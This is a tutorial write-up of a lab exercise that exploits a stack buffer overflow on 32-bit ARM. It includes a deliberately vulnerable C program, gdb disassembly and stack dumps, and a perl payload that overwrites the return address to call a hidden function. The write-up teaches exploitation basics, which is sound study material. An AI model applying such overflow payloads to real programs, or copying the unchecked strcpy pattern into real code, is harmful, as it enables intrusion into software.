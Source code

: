 # ARM Buffer overflow

## file

challenge21.c:
```
#include <stdio.h>
#include <stdlib.h>

void IShouldNeverBecalled() {
    printf("I should never be called");
    fflush(stdout);
    exit(0);
}

void vulnerable(char *arg) {
    char buff[16];
    strcpy(buff, arg);
}

void main(int argc, char **argv) {
    vulnerable(argv[1]);
    return(0);
}

```

Compile it:
```
gcc -ggdb challenge21.c -o challenge21 -fno-stack-protector
```


## Info gathering

Lets check the main function:
```
$ gdb challenge21

(gdb) disas main
Dump of assembler code for function main:
   0x000104f4 <+0>:     push    {r7, lr}
   0x000104f6 <+2>:     sub     sp, #8
   0x000104f8 <+4>:     add     r7, sp, #0
   0x000104fa <+6>:     str     r0, [r7, #4]
   0x000104fc <+8>:     str     r1, [r7, #0]
   0x000104fe <+10>:    ldr     r3, [r7, #0]
   0x00010500 <+12>:    adds    r3, #4
   0x00010502 <+14>:    ldr     r3, [r3, #0]
   0x00010504 <+16>:    mov     r0, r3
   0x00010506 <+18>:    bl      0x104d8 <vulnerable>
   0x0001050a <+22>:    nop
   0x0001050c <+24>:    adds    r7, #8
   0x0001050e <+26>:    mov     sp, r7
   0x00010510 <+28>:    pop     {r7, pc}
End of assembler dump.
```

Lets check the vulnerable function:
```
(gdb) disas vulnerable
Dump of assembler code for function vulnerable:
   0x000104d8 <+0>:     push    {r7, lr}
   0x000104da <+2>:     sub     sp, #24
   0x000104dc <+4>:     add     r7, sp, #0
   0x000104de <+6>:     str     r0, [r7, #4]
   0x000104e0 <+8>:     add.w   r3, r7, #8
   0x000104e4 <+12>:    ldr     r1, [r7, #4]
   0x000104e6 <+14>:    mov     r0, r3
   0x000104e8 <+16>:    blx     0x10394 <strcpy@plt>
   0x000104ec <+20>:    nop
   0x000104ee <+22>:    adds    r7, #24
   0x000104f0 <+24>:    mov     sp, r7
   0x000104f2 <+26>:    pop     {r7, pc}
End of assembler dump.
(gdb)
```

## Overflow

```
(gdb) b *0x000104f2
Breakpoint 1 at 0x104f2: file vuln.c, line 13.

(gdb) run `perl -e 'print "AAAABBBBCCCCDDDDEEEEaaaa"'`
Starting program: /root/challenges/challenge21/challenge21 `perl -e 'print "AAAABBBBCCCCDDDDEEEEaaaa"'`

Breakpoint 2, 0x000104f2 in vulnerable (arg=0xfffef93f "AAAABBBBCCCCDDDDEEEEaaaa") at challenge21.c:13
13      }

(gdb) x/16x $sp
0xfffef6c8:     0x45454545      0x61616161      0xfffef800      0x00000002
0xfffef6d8:     0x00000000      0xf76f28ab      0xf77c4000      0xfffef834
0xfffef6e8:     0x00000002      0x000104f5      0xf77f0000      0xaaaaaaab
0xfffef6f8:     0x1c59d9a6      0x14c8073b      0x0000012c      0x00000000
```

Compare it with original execution (without overflow):
```
(gdb) run `perl -e 'print "AAAABBBBCCCCDDDD"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge21/challenge21 `perl -e 'print "AAAABBBBCCCCDDDD"'`

Breakpoint 2, 0x000104f2 in vulnerable (arg=0xfffef947 "AAAABBBBCCCCDDDD") at challenge21.c:13
13      }
(gdb) x/16x $sp
0xfffef6c8:     0xfffef600      0x0001050b      0xfffef834      0x00000002
0xfffef6d8:     0x00000000      0xf76f28ab      0xf77c4000      0xfffef834
0xfffef6e8:     0x00000002      0x000104f5      0xf77f0000      0xaaaaaaab
0xfffef6f8:     0x5695adca      0x5e047357      0x0000012c      0x00000000
```

Check address `0x0001050b`:
```
(gdb) disas main
Dump of assembler code for function main:
   0x000104f4 <+0>:     push    {r7, lr}
   0x000104f6 <+2>:     sub     sp, #8
   0x000104f8 <+4>:     add     r7, sp, #0
   0x000104fa <+6>:     str     r0, [r7, #4]
   0x000104fc <+8>:     str     r1, [r7, #0]
   0x000104fe <+10>:    ldr     r3, [r7, #0]
   0x00010500 <+12>:    adds    r3, #4
   0x00010502 <+14>:    ldr     r3, [r3, #0]
   0x00010504 <+16>:    mov     r0, r3
   0x00010506 <+18>:    bl      0x104d8 <vulnerable>
   0x0001050a <+22>:    nop
   0x0001050c <+24>:    adds    r7, #8
   0x0001050e <+26>:    mov     sp, r7
   0x00010510 <+28>:    pop     {r7, pc}
End of assembler dump.
```

Seems the address on the stack is pointing to the `nop` at address `0x0001050a`.
But the saved address is `0x0001050b`, so 1 byte higher. Lets keep this in mind.

Note that ARM is 4 byte aligned (32 bit), so valid addresses always end with 0, 4, 8, b.
But in thumb mode, instructinos are 2 byte (16 bit).

## Execute another function

get address of IShouldNeverBecalled():
```
(gdb) disas IShouldNeverBecalled
Dump of assembler code for function IShouldNeverBecalled:
   0x000104b0 <+0>:     push    {r7, lr}
   0x000104b2 <+2>:     add     r7, sp, #0
   0x000104b4 <+4>:     movw    r0, #1376       ; 0x560
   0x000104b8 <+8>:     movt    r0, #1
   0x000104bc <+12>:    blx     0x1037c <printf@plt>
   0x000104c0 <+16>:    movw    r3, #4148       ; 0x1034
   0x000104c4 <+20>:    movt    r3, #2
   0x000104c8 <+24>:    ldr     r3, [r3, #0]
   0x000104ca <+26>:    mov     r0, r3
   0x000104cc <+28>:    blx     0x10388 <fflush@plt>
   0x000104d0 <+32>:    movs    r0, #0
   0x000104d2 <+34>:    blx     0x103b8 <exit@plt>
```

The address we want to jump to is `0x000104b0`. But, as we have seen in the previous
chapter, we need to increment it by one byte: `0x000104b1`.

Lets try this:

```
(gdb) run `perl -e 'print "AAAABBBBCCCCDDDDEEEE\xb1\x04\x01"'`
Starting program: /root/challenges/challenge21/challenge21 `perl -e 'print "AAAABBBBCCCCDDDDEEEE\xb1\x04\x01"'`

I should never be called
```

## Conclusion

Here, Ubuntu 16.04 on arm 32 bit behaves pretty much exactly the same as x86.
Stack grown down, we have little endianness, and the return address is on the stack.
The only big difference is the ARM assembly codes.
